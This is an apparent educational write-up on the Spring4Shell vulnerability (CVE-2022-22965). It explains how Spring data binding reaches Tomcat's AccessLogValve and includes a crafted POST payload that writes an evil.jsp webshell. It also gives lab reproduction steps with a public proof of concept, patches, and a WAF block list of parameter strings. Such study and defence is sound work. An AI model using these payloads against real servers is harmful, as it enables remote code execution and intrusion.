






# CVE Reproduce: Spring4Shell (CVE-2022-22965)

### Details

CVE ID: <br>
**CVE-2022-22965**

Vulnerability Name: <br>
**Spring4Shell**

Vulnerable Software: <br>
- **Spring Framework (versions 5.3.0 – 5.3.17 and 5.2.0 – 5.2.19)**
- **Typically exploitable on applications running Spring MVC or Spring WebFlux with JDK 9 or later**

Vulnerability Type: <br>
**Remote Code Execution (via unsafe data binding)**

Severity: <br>
- **9.8 CVSS v3 (Critical), 7.5 CVSS v2 (High)**

---

### Summary

Spring4Shell is a critical vulnerability in the popular **Spring Framework** for Java, widely used to build enterprise-level web applications. It was discovered in March 2022 and quickly drew comparisons to Log4Shell due to its widespread impact and ease of exploitation.

The vulnerability arises from the way Spring handles data binding in web requests. By manipulating request parameters, an attacker can bypass restrictions and write malicious values into sensitive internal fields. When combined with a Tomcat deployment scenario, attackers can overwrite logging configuration files (such as webapps/ROOT/WEB-INF/web.xml or Tomcat’s logging properties), eventually leading to remote code execution.

Because Spring is so widely adopted, the vulnerability posed a severe risk across countless Java-based services exposed to the internet.

---

### Example of the Vulnerability

1. A web application running on a vulnerable version of Spring Framework (with Tomcat and JDK 9+).
   
2. Attacker sends a specially crafted HTTP POST request with malicious form parameters. For instance:
   ```http
   POST /app/endpoint HTTP/1.1
   Host: vulnerable-app.com
   Content-Type: application/x-www-form-urlencoded

   class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{c2}i
   class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp
   class.module.classLoader.resources.context.parent.pipeline.first.directory=/webapps/ROOT/
   class.module.classLoader.resources.context.parent.pipeline.first.prefix=evil
   class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
   ```
   - This payload abuses Spring’s data binding feature to manipulate internal Tomcat logging objects.
   - It instructs Tomcat to write logs into a JSP file (`evil.jsp`).
  
3. Once the malicious JSP file is written to the server’s web directory, the attacker accesses:
   ```bash
   http://vulnerable-app.com/evil.jsp?cmd=id
   ```
   The JSP file contains attacker-controlled code that executes arbitrary commands (like `id`, `whoami`, etc.).

4. The result is remote code execution occurs on the server, running with the permissions of the Tomcat process.

---

### How it works

#### What is Spring and data binding?

Spring is a popular Java framework for building web apps. One of its core features is **data binding**, which automatically maps HTTP request parameters into Java objects (often called as POJOs, Plain Old Java Objects). For example:
```pgsql
POST /login?username=alice&password=123
```

would be bound by Spring into:

```java
class LoginForm {
    String username;
    String password;
}
```
<br>

#### Deep binding and object navigation

Normally, binding is used for simple fields like username or password. But Spring’s binder supports **deep property** paths, which means an attacker could walk into nested objects:
```pgsql
user.address.street
```
But in Java, everything is an object, including the internal configuration objects of Tomcat.

<br>

#### The JDK 9 change that opened the door

Before Java 9, certain internal fields were not easily accessible. With the introduction of the Java module system in JDK 9, some protections around class exposure changed. As a result, opened a path where Spring’s data binder could traverse through an object’s `Class` → `Module` → `ClassLoader` chain.
This traversal let attackers eventually land on server configuration objects, not just application data models.

<br>

#### Reaching Tomcat internals

Attackers discovered that if they navigated far enough through the object graph, they could reach:
```cpp
class.module.classLoader.resources.context.parent.pipeline.first
```

Here, `pipeline.first` is usually a **Tomcat AccessLogValve** object, which is responsible for writing HTTP access logs. By setting properties here, the attacker can control how Tomcat writes logs.

<br>

#### What is AccessLogValve

`AccessLogValve` is a configurable Tomcat component. It has **setter methods** like `setPattern`, `setDirectory`, `setPrefix`, `setSuffix`, etc., that define how and where logs are written. Under normal use, this just controls log format. But with data binding, attackers can directly **call these setters remotely via HTTP parameters**.

<br>

#### Reconfiguring logs into a JSP webshell

By supplying crafted request parameters (like the one in the [Example of the Vulnerability](#example-of-the-vulnerability) section), the attacker modifies the `AccessLogValve` configuration:

- `pattern` -> injected JSP code (`<% … malicious Java code … %>`)

- `suffix` -> .jsp (instead of `.log`)

- `directory` -> `/webapps/ROOT/` (Tomcat’s webroot)

- `prefix` -> `evil` (file will be named `evil.jsp`)

- `fileDateFormat` -> empty (to avoid timestamped filenames)

Using this configuration, Tomcat now writes its access log as a JSP file containing attacker code, directly into the web-accessible root directory.

<br>

#### Triggering the drop

Once reconfigured, the attacker makes a normal HTTP request. Tomcat writes an “access log entry,” but since logging is now pointed to `evil.jsp`, that log entry is JSP code.

-> `/webapps/ROOT/evil.jsp` now exists on disk.

<br>

#### Remote Code Execution

The attacker then simply browses to:

```arduino
http://victim-server/evil.jsp
```

Tomcat interprets `evil.jsp` as executable code. Since the file was attacker-supplied, they gain full remote code execution.

<br>

#### Spring4Shell Exploit Flow

<br><br>

---

### CVE Reproduce

#### Setup

- [Spring4Shell-PoC Docker](https://github.com/BobTheShoplifter/Spring4Shell-POC) by BobTheShoplifter
- Kali Linux
  
#### Exploitation Step

1. Download the Github repository:
   ```bash
   git clone https://github.com/BobTheShoplifter/Spring4Shell-POC.git
   ```

2. Follow the [instructions](https://github.com/BobTheShoplifter/Spring4Shell-POC/blob/main/vulnerable-tomcat/README.md) to setup vulnerable Tomcat server docker:
   ```bash
   cd Spring4Shell-POC/vulnerable-tomcat/spring-war
   mvn clean package
   cd target
   mv spring-form.war ../../
   cd ../../
   ```

3. Build and start the docker container:
   ```bash
   docker build -t vulnerable-tomcat .
   docker run -it --rm -p 8888:8080 vulnerable-tomcat
   ```
   <br><br>

4. Run the exploit script:
   ```bash
   python3 poc.py --url http://<dockerip>:8888/spring-form/greeting
   
   #or docker variant
   
   docker pull ghcr.io/bobtheshoplifter/spring4shell-poc:main
   docker run ghcr.io/bobtheshoplifter/spring4shell-poc:main --url http://<dockerip>:8888/spring-form/greeting
   ```
   <br><br>

5. Browse to the URL and execute different commands:

   <br><br>

   <br><br>

   <br><br>

---

### Patch & Mitigation
   
1. Patches:
   - Spring Framework: upgrade to 5.3.18+ or 5.2.20+ (or newer LTS lines).
   - Spring Boot: upgrade to 2.6.6+ or 2.5.12+ (or newer).
   - Rebuild and redeploy all affected services.
  
2. Mitigation
   - Tomcat:
     - Ensure access logs are written outside the webroot (never `/webapps/ROOT/`)
     - Disable `AccessLogValve` or use a file path that is not web-served if feasible
    
   - Run the server as a non-root user with minimal write permissions.
   - Put the app behind a reverse proxy/WAF and block requests containing paths/params like:
     `class.module.classLoader`, `resources.context.parent.pipeline`, `pattern`, `suffix`, `directory`, `prefix`, `fileDateFormat`, etc.

---

### Reflection

Spring4Shell is a classic lesson in feature power vs. attack surface. Spring’s data binding is convenient, but the deep and reflective binding let user input traverse into internal server objects (via `Class` -> `Module` -> `ClassLoader`) and reach Tomcat’s AccessLogValve, where simple setters turned logging into a file-write primitive. From there, converting logs into a JSP webshell was just configuration.

While powerful frameworks speed up development, they can also expose risky internal mechanisms when defaults are not safe. It’s important to enforce least-privilege data binding, maintain strict patching practices, and design with secure defaults, so that even if a single component is flawed, attackers cannot easily escalate to remote code execution.
